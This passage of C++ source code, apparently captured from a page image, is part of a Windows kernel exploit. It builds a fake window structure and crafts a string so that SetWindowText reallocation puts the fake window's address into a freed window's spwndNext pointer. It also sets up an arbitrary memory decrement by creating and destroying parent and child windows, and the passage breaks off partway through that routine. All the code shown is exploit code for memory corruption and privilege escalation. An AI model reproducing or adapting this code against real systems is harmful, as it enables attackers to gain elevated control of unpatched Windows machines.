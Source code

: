         // we put this to 0 because of a check done in the function
        ((int *)FakeWin)[1] = 0;

        // we crate the string for the reallocation
        for (int i = 0; i < 82; i++)
            str[i] = 'a';
        str[81] = '\0';
        // the address for the spwndNext : we put the address of our
        // FakeWindow
        str[0x2c / 2] = (char) (((int) FakeWin) & 0xff);
        str[0x2c / 2 + 1] = (char) (((int) FakeWin >> 16) & 0xff);
    }

    void changeaddrdecr(int addrdecr)
    {
        // we put in the position for the next the addr to decr
        ((int *)FakeWin)[12] = (addrdecr - 4);
    }

    void decr(HINSTANCE hInst, int addrdecr)
    {
        HHOOK hhk;

        // we first create two windows we will use for realloc with SetWindowText
        // this window are name win3 and win4
        win3 = CreateWindowEx(WS_EX_LEFT, "Button", NULL, WS_TILEDWINDOW, 500, 500, 100, 100,
            NULL, NULL, hInst, NULL);
        if (!win3)
        {
            std::cout << "Window 3 not created : " << GetLastError() << std::endl;
            exit (0);
        }

        win4 = CreateWindowEx(WS_EX_LEFT, "Button", NULL, WS_TILEDWINDOW, 500, 500, 100, 100,
            NULL, NULL, hInst, NULL);

        if (!win4)
        {
            std::cout << "Window 4 not created : " << GetLastError() << std::endl;
            exit(0);
        }
        // we need a third window which will set as the parent and then destroy
        // and reallocate using SetWindowText
        win2 = CreateWindowEx(WS_EX_LEFT, "Button", "Test title 2", WS_TILEDWINDOW, 0, 0, 200, 200,
            NULL, NULL, hInst, NULL);
        if (!win2)
        {
            std::cout << "Win2 not created : " << GetLastError() << std::endl;
            exit (0);
        }

        std::cout << "Window parrent : " << win2 << std::endl;
        std::cout << "Window for the realloc : " << win3 << std::endl;
        std::cout << "Window for the realloc : " << win4 << std::endl;
